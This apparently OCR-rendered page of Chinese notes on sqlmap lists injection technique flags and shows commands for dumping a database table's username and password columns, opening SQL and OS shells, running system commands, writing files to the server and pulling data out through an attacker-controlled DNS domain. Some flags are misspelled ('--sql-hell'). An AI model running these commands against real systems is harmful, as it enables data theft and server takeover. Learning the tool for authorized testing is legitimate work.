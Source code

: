 ​     

#### <font color=red>10. Techniques</font>
技术 
```bash
#默认使用全部技术
B:  Boolean-based bind
E:  Error-based
U:  Union auery-based
S:  Stacked queries (文件系统，操作系统，注册表必须)
T:  Time-based-bind

--time-sec  # 基于时间的注入检测相应延迟时间（默认5s）
--union-cols 6-9  # 默认联合查询1-10列，随--level增大最多支持50列 

--union-char 123  # 联合查询默认使用NULL， 极端情况下NULL可能失败，此时可以手动执行数值 

--dns-domain attacker.com # 攻击者控制了DNS服务器，使用此功能可以提高数据榨取速度

--second-order http://1.1.1.1/a.php  # 在一个页面注入的结果，在另一个页面体现出来
```



​	  



# 小例子

获取指定数据库 指定表 指定列

```
 --batch -D 'dbname' -T 'tablename' -C 'username.password' --dump
```



提权操作

```
# 数据库提权
--batch --sql-hell

# 系统提权
--batch --os-shell

# 执行系统命令(前提要有权限)
--os-cmd=ls /
```

把文件上传到数据库服务器中

```
sqlmap.py --file-write --file-dest "服务器路径"
```

